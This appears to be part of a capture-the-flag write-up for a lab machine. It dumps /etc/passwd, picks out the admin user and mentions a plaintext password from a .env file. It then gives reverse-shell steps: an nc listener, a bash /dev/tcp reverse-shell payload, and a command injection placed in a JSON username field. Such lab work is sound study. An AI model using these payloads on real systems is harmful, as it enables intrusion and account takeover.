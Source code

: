 /etc/passwd file:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
admin:x:1000:1000::/home/admin:/bin/bash
memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

We have only one user besides root, which is admin. We know this because it the only one who has a /bin/bash shell assign to it. Additionaly, it is the user that is specified in the .env file. For our luck it has a plaintext password which is bad security. Lets try to connect to with the user and pass: `ssh admin@10.10.11.221`

Using the reverse shell method to get a shell we can do the following steps:

1. Create a listener with `nc -lvp 1234`
2. Encode to base64 the following payload: `bash -i >& /dev/tcp/<your_IP>/1234 0>&1`
3. Then add the `{"username":"test;echo $BASE64_BASH_PAYLOAD | base64 -d | bash;"}`
4. We should get a shell as www-data, we can then get lateral movement by looking at the file with the username and password
